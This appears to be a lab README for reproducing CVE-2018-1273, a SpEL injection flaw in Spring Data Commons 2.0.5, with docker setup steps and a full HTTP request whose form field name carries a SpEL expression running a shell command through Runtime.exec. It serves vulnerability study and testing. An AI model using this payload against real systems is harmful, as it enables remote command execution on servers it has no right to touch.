

# Spring Data Commons Remote Code Execution (CVE-2018-1273)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Data is an open-source framework designed to simplify database access and support cloud services. Spring Data Commons serves as the foundational framework shared by all sub-projects under Spring Data.

In versions 2.0.5 and earlier of Spring Data Commons, there exists a SpEL (Spring Expression Language) injection vulnerability that allows attackers to inject malicious SpEL expressions to execute arbitrary commands.

Reference links:

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## Environment Setup

Execute the following command to start a Web application based on Spring Data Commons 2.0.5:

```
docker compose up -d
```

After a short wait and once the server starts, visit `http://your-ip:8080/users` to see a user registration page.

## Vulnerability Reproduce

Referring to the payload from the reference links, intercept the registration request and modify it to the following:

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

Execute `docker compose exec spring bash` to enter the container, and you can see that `/tmp/success` has been successfully created, indicating that the command execution was successful:


